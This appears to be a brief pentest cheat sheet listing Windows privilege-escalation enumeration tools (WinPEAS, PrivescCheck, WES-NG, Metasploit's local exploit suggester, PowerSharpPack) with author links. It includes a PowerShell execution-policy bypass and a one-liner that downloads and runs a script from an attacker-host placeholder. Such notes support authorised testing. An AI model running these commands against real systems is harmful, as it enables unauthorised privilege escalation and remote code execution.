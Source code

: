 ### 1: WinPEAS  Author:https://github.com/carlospolop/PEASS-ng/releases

### 2: Privesccheck (Set -ExecutionPolicy Bypass -Scope process -Force) Author: https://github.com/itm4n/PrivescCheck

### 3: Windows Exploit Suggester - Next Generation (WES-NG) Author: https://github.com/AonCyberLabs/Windows-Exploit-Suggester

### Systeminfo > txt file

### wes.py --update

### 4: Metasploit (multi/recon/local_exploit_suggester)

### 5: PowerSharpUp 

    iex(new-object net.webclient).downloadstring('http://ATTACK_IP:PORT/PowerSharpPack.ps1')
